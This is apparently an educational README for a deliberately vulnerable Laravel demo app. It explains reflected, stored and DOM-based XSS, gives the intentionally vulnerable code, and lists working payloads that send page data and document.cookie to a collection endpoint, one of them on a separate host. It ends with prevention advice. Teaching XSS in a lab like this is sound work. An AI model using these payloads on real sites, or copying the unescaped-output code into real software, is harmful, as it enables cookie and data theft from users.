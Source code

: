 # XSS Attacks Demonstration

This document explains the XSS vulnerabilities implemented in this application for educational purposes.

## Overview

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject client-side scripts into web pages viewed by other users. This application intentionally contains several XSS vulnerabilities to demonstrate how they work and how they can be exploited.

## Types of XSS Attacks Demonstrated

### 1. Reflected XSS

Reflected XSS occurs when user input is immediately returned by a web application without proper sanitization.

**Vulnerable Code:**
```php
// In ProductsController.php
$searchKeywords = $request->keywords;
return view('products.list', compact('products', 'searchKeywords'));

// In list.blade.php
<h4>Search Results for: {!! $searchKeywords !!}</h4>
```

**Example Payload:**
```html
<script>fetch('http://websecservice.localhost.com/collect?name='+document.getElementById('user-name').innerText+'&credit='+document.getElementById('user-credit').innerText);</script>
```

**How to Test:**
1. Go to the Products page
2. Enter the payload in the search box
3. Submit the search
4. The script will execute and send user data to the collect endpoint

### 2. Stored XSS

Stored XSS occurs when user input is stored on the target server and then displayed to other users without proper sanitization.

In this demo, we're simulating stored XSS with the search history feature that stores search terms in the DOM.

**Example Payload:**
```html
<script>
var searchHistory = [];
document.getElementById('search-form').addEventListener('submit', function(e) {
    var keywords = document.getElementById('search-keywords').value;
    searchHistory.push(keywords);
    fetch('/collect?activity=search_history&data='+encodeURIComponent(JSON.stringify(searchHistory)));
});
</script>
```

### 3. DOM-based XSS

DOM-based XSS occurs when client-side JavaScript modifies the DOM in an unsafe way based on user input.

**Vulnerable Code:**
```javascript
// Function to parse URL parameters (vulnerable to DOM XSS)
function getUrlParameter(name) {
    name = name.replace(/[\[]/, '\\[').replace(/[\]]/, '\\]');
    var regex = new RegExp('[\\?&]' + name + '=([^&#]*)');
    var results = regex.exec(location.search);
    return results === null ? '' : decodeURIComponent(results[1].replace(/\+/g, ' '));
}

// DOM XSS vulnerability: directly inserting URL parameter into DOM
document.addEventListener('DOMContentLoaded', function() {
    var searchTerm = getUrlParameter('keywords');
    
    if (searchTerm) {
        var historyDiv = document.getElementById('search-history');
        if (historyDiv) {
            var searchItem = document.createElement('div');
            searchItem.innerHTML = '<p>Recent search: ' + searchTerm + '</p>';
            historyDiv.appendChild(searchItem);
        }
    }
});
```

**Example Payload:**
```html
<img src="x" onerror="fetch('/collect?dom_xss=true&data='+document.cookie)" />
```

**How to Test:**
1. Visit: `/products?keywords=<img src='x' onerror='fetch(`/collect?dom_xss=true&data=${document.cookie}`)'>`
2. The JavaScript in the URL parameter will be executed when the page loads
3. Check the collect endpoint logs to see the captured data

## The Collect Endpoint

The application includes a `/collect` endpoint that simulates a malicious server collecting stolen data:

```php
public function collect(Request $request)
{
    // Log all collected data
    Log::info('Data collected:', $request->all());
    
    // Return a simple response
    return response()->json([
        'status' => 'success',
        'message' => 'Data collected successfully',
        'data' => $request->all()
    ]);
}
```

## Prevention Techniques

To prevent XSS attacks in a real application, you should:

1. **Output Encoding**: Always encode user input before displaying it
   ```php
   {{ htmlspecialchars($userInput) }}
   ```

2. **Content Security Policy (CSP)**: Implement a strict CSP to prevent execution of inline scripts
   ```
   Content-Security-Policy: default-src 'self'; script-src 'self'
   ```

3. **Input Validation**: Validate and sanitize all user inputs on both client and server sides

4. **Use Laravel's {{ }} Syntax**: Laravel's `{{ }}` automatically escapes output, while `{!! !!}` does not

## Disclaimer

This code contains intentional security vulnerabilities for educational purposes only. Do not use these techniques in a production environment or for malicious purposes.
